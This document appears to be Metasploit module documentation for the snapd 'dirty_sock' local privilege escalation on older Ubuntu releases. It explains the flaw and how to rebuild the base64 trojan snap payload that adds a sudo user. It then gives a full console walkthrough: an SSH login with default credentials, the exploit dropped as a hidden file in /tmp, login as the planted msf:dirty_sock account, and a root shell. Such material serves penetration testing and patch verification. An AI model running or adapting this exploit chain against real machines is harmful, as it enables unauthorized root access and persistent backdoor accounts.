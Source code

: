## Vulnerable Application

This module exploits a vulnerability in the snapd service <2.34.2 on Ubuntu
14.04-18.04 and <2.35.5 on Ubuntu 18.10.
The service incorrectly parses a unix socket file name
containing a UID parameter, and honors it as the UID for the process.

Exploitation can be complicated since the snap container is run from a sandbox
with limited read/write to some files on the filesystem.  The exploit creates
a new user with sudo privileges, by default msf:dirty_sock.  Upon successful
exploitation, the credentials may take a minute to become viable.

Exploitation will also cause snapd to perform an auto-update, so this is
a one shot exploit.

### Extra Information

This module utilizes a snap package for exploitation.  A snap package is a squashfs
file which we base64 encode for easy delivery.  The snap package is run inside a sandbox
so exploitation vectors are limited.  The following were attempted to get a remote payload
to run:

1. Add a job to `/etc/crontab`. The snap package could read crontab, but was not able to write
2. Read/Write to the system `/tmp`. The snap package does not view the system `/tmp` but rather
a sandboxed `/tmp`.
3. Utilize networking (`curl`) to get a remote payload. Adding `network` to the snap package
did not result in the ability to successfully `curl` a payload from the attacker.
4. Dynamically add a payload to the snap package. There is limited to no support for dynamically
editing a `squashfs` file within ruby.  Since `squashfs` is compressed, attempts to perform raw
edits on the payload inside the base64 had very limited success and were not stable.

Also of note, attempts to stop snap from updating itself were unsuccessful. Bundling an edit to
`/etc/hosts` as documented here: https://askubuntu.com/questions/930593/how-to-disable-autorefresh-in-snap
did not prevent udpating. A second attempt to set `snap` to use a proxy directly as documented here:
https://discuss.linuxcontainers.org/t/disable-snap-auto-refresh-immediately/5333 were also
not successful.

### Altering Default Payload

The default payload is to create a new user with the `msf` username and `dirty_sock`
password.  However, it is relatively easy to edit the payload

To create a new payload:

1. From bash (replace empty quote with SNAP option value): `echo '' | base64 -d > /tmp/snap_payload`
2. `unsquashfs -l /tmp/snap_payload` # double check files are there and decode was good
3. `mkdir /tmp/snap_squash; cd /tmp/snap_squash`
4. `sudo unsquashfs /tmp/snap_payload`
5. Make any changes you want. This will most likely be in the `squashfs-root/meta/hooks/install`
or `squashfs-root/meta/snap.yaml` files
6. `mksquashfs /tmp/snap_squash/squashfs-root/ /tmp/snap_payload`
7. `cat /tmp/snap_payload | base64` # copy this to your clipboard
8. You will now do a `set option SNAP '<insert copy and pasted content here>'`

## Verification Steps

1. Start msfconsole
2. Get a shell on a vulenrable box
3. Do: `use post/linux/escalate/ubuntu_snapd_socket_privesc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a "Success!", and able to able to SSH in to the remote box, then `sudo` to root.

## Options

### SNAP

This is a base64 encoded snap package. See instructions in this document to modify it.

## Scenarios

### snapd 2.29.4.2 on Ubuntu 16.04


#### Initial Shell
```
[*] Processing snapd.rb for ERB directives.
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username ubuntu
username => ubuntu
resource (snapd.rb)> set password ubuntu
password => ubuntu
resource (snapd.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46713 -> 111.111.1.111:22 ) at 2022-03-15 18:52:06 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Priv Esc
```
resource (snapd.rb)> use post/linux/escalate/ubuntu_snapd_socket_privesc
resource (snapd.rb)> set session 1
session => 1
resource (snapd.rb)> set verbose true
verbose => true
resource (snapd.rb)> run
[*] Found snapd 2.29.4.2 on Ubuntu 16.04
[*] Using 'python' to run exploit
[*] Writing exploit to /tmp/.nUIPGYbWr7
[*] Max line length is 65537
[*] Writing 13110 bytes in 1 chunks of 48973 bytes (octal-encoded), using printf
[*] Launching exploit: python /tmp/.nUIPGYbWr7
[*] [+] Slipped dirty sock on random socket file: /tmp/qkmqdejlyv;uid=0;
[*] [+] Binding to socket file...
[*] [+] Connecting to snapd API...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] [+] Installing the trojan snap (and sleeping 8 seconds)...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] Success!
[+] Success! You can now login and sudo with msf:dirty_sock or whatever credentials were included in the snap option. However it may take several minutes for the account to finish creation.
[*] Post module execution completed
resource (snapd.rb)> sleep 30
```

#### Use new creds
```
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username msf
username => msf
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'msf:dirty_sock' 'uid=1001(msf) gid=1001(msf) groups=1001(msf),27(sudo) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (2.2.2.2:43069 -> 111.111.1.111:22 ) at 2022-03-15 18:53:08 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (snapd.rb)> use multi/manage/sudo
resource (snapd.rb)> set session 2
session => 2
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `dirty_sock'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

snap version
snap    2.54.4
snapd   2.54.4
series  16
ubuntu  16.04
kernel  4.4.0-112-generic
```
